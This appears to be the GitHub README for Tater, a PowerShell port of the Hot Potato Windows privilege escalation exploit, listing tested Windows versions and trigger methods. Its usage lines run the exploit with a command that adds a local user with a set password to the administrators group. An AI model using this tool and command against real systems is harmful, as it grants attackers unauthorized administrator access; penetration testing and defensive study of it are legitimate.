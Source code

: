 # Tater
Tater is a PowerShell implementation of the Hot Potato Windows Privilege Escalation exploit.    

# Credit
All credit goes to @breenmachine, @foxglovesec, Google Project Zero, and anyone else that helped work out the details for this exploit.  
 
Potato - https://github.com/foxglovesec/Potato   

# Notes
This version has been successful for me on Windows 7, Windows 8.1, Windows 10, and Windows Server 2012 R2. I will hopefully be able to test it on Windows Server 2008 soon. Feel free to open issues here or reach out on Twitter @kevin_robertson with successes or failures for the remaining OS versions. 

# Usage
To import with Import-Module:   
Import-Module ./Tater.ps1   

To import using dot source method:   
. ./Tater.ps1  
 
Invoke-Tater -Trigger 1 -Command "net user tater Winter2016 /add && net localgroup administrators tater /add"   

Invoke-Tater -Trigger 2 -Command "net user tater Winter2016 /add && net localgroup administrators tater /add"     

# Screenshots
Windows 7 using trigger 1 (NBNS WPAD Bruteforce + Windows Defender Signature Updates)
![tater2](https://cloud.githubusercontent.com/assets/5897462/12707930/d005af7c-c867-11e5-916d-20a015ed30ec.PNG)

Windows 10 using trigger 2 (WebClient Service + Scheduled Task)
![tater3](https://cloud.githubusercontent.com/assets/5897462/12707953/1f77c48c-c868-11e5-8ea3-5e0e26cd3bdd.PNG)

Windows 7 using trigger 1 and UDP port exhaustion
![tater4](https://cloud.githubusercontent.com/assets/5897462/12708234/673e3794-c86b-11e5-8cc0-398b7170b73f.PNG)